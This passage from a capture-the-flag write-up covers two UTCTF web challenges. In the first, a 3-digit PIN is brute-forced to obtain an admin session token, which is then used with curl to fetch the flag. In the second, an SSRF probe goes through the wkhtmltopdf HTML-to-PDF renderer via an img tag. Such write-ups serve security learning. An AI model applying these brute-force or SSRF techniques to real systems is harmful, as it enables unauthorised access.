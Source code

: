 Inspecting the HTML source tells us that the password is probably just 3 digits:

```
<!-- what is this garbage, you ask? Well, most of our pins are now 16 digits, but we still have some old 3-digit pins left because tom is a moron and can't remember jack -->
<input name="password" type="password" placeholder="PIN" required pattern="(\d{3}|\d{16})">
```

All that's left is brute-force the password to obtain the session cookie.


```
$ ./websockets 
eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiYXV0aGVudGljYXRlZCI6dHJ1ZX0.on9k8zp5TonNvIRtXDxpV9I8KWRNPQHvPXd20DZE8hA
$ curl -sS http://web1.utctf.live:8651/internal/user -b 'flask-session=eyJ0eXAiOiJKV1QiLCJhbGciOiJIUzI1NiJ9.eyJ1c2VybmFtZSI6ImFkbWluIiwiYXV0aGVudGljYXRlZCI6dHJ1ZX0.on9k8zp5TonNvIRtXDxpV9I8KWRNPQHvPXd20DZE8hA' | grep utflag
        utflag{w3bsock3ts}
```

[websockets.go](websockets/websockets.go)

## HTML2PDF (Web)

> My friend bet me I couldn't pwn this site. Can you help me break in?
>
> (bruteforcing is not necessary or helpful to solve this problem)
>
> *by mattyp*
>
> http://web2.utctf.live:9854

The website renders HTML in the input form into PDFs. The placeholder contains
an `<img>` to an external server that gets rendered, so we can try SSRF with
something like `<img src="http://<our-server>">`. The challenge server sent us a
request like so:

```
GET / HTTP/1.1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/602.1 (KHTML, like Gecko) wkhtmltopdf Version/9.0 Safari/602.1
Accept: */*
Connection: Keep-Alive
Accept-Encoding: gzip, deflate
Accept-Language: en,*
Host: <our-server>
```

The User-Agent header tells us that the server is using
[`wkhtmltopdf`][wkhtmltopdf-gh]. A quick issue search lands us on issue
[#4536][wkhtmltopdf-gh-issue], which tells us that `wkhtmltopdf` will execute
code and include remote files for us (if not configured correctly).

[wkhtmltopdf-gh]: https://github.com/wkhtmltopdf/wkhtmltopdf/
[wkhtmltopdf-gh-issue]: https://github.com/wkhtmltopdf/wkhtmltopdf/issues/4536


[misc-grumpy-bcsscan]: https://bscscan.com/address/0x867D66C78235CD6c989FbFA34606FcfF637fB613
[misc-grumpy-etherscan]: https://ropsten.etherscan.io/address/0x867D66C78235CD6c989FbFA34606FcfF637fB613
[misc-grumpy-tx]: https://ropsten.etherscan.io/tx/0xca78d2d51101fda93f3f8c62f4349dd23a7e5692cef667ab834c3611601f068f